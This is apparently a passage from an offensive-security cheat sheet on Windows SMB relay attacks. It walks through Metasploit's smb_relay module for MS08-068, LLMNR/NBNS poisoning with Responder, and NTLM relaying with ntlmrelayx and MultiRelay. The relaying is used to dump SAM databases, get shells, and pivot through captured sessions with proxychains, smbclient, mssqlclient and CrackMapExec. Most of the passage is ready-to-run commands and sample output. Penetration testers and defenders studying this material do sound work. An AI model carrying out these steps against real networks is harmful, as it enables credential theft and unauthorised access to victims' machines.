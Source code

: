 > This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```

#### SMB Signing Disabled and IPv4

If a machine has `SMB signing`:`disabled`, it is possible to use Responder with Multirelay.py script to perform an `NTLMv2 hashes relay` and get a shell access on the machine. Also called **LLMNR/NBNS Poisoning**

1. Open the Responder.conf file and set the value of `SMB` and `HTTP` to `Off`.
    ```powershell
    [Responder Core]
    ; Servers to start
    ...
    SMB = Off     # Turn this off
    HTTP = Off    # Turn this off
    ```
2. Run `python  RunFinger.py -i IP_Range` to detect machine with `SMB signing`:`disabled`.
3. Run `python Responder.py -I <interface_card>` 
4. Use a relay tool such as `ntlmrelayx` or `MultiRelay`
    - `impacket-ntlmrelayx -tf targets.txt` to dump the SAM database of the targets in the list. 
    - `python MultiRelay.py -t <target_machine_IP> -u ALL`
5. ntlmrelayx can also act as a SOCK proxy with every compromised sessions.
    ```powershell
    $ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> socks
    Protocol  Target          Username                  Port
    --------  --------------  ------------------------  ----
    MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
    SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
    MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

    # You might need to select a target with "-t"
    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

    # the socks proxy can then be used with your Impacket tools or CrackMapExec
    $ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
    $ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
    $ proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
    ```
